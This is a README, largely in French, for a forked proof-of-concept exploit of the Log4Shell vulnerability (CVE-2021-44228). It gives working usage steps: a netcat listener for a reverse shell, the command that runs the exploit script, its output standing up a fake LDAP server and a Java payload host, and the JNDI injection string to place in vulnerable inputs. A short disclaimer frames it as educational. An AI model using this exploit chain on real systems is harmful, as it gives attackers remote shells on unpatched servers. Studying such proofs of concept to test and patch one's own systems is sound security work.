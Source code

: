 # log4j-shell-poc

## forked from https://github.com/kozmer/log4j-shell-poc
A Proof-Of-Concept pour la CVE-2021-44228 <br><br>

Proof-of-concept (POC)
----------------------

Installer les dépendances python 

#### Requirements:
```bash
pip install -r requirements.txt
```
#### Usage:


* Démarrer un listener pour la connexion reverse shell <br>
```py
nc -lvnp 9001
```
* Lancer l'exploit <br>
**Note:** J'ai intégré le jdk de java qui est devenu lourd à récupérer (F*ck*ng License system Oracle)
```py
$ python3 poc.py --userip $iplistener --webport 8000 --lport 9001

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up fake LDAP server

[+] Send me: ${jndi:ldap://$iplistener:1389/a}

Listening on 0.0.0.0:1389
```

Le script :
- Démarre un serveur web python hebergeant le payload Java (Exploit.class)
- Démarre un serveur LDAP sur le port 1389 (pour renvoyer la connexion vers le serveur web python)

L'exploit JNDI ${jndi:ldap://$iplistener:1389/a} (affiché par le script) déclenchera la connexion du serveur vulnérable vers vos services pour exécuter le reverse shell final

${jndi:ldap://$iplistener:1389/a} doit être passé dans les entrées vulnérables

<br>


Disclaimer
----------
This repository is not intended to be a one-click exploit to CVE-2021-44228. The purpose of this project is to help people learn about this vulnerability, and perhaps test their own applications (however there are better applications for this purpose, ei: [https://log4shell.tools/](https://log4shell.tools/)).
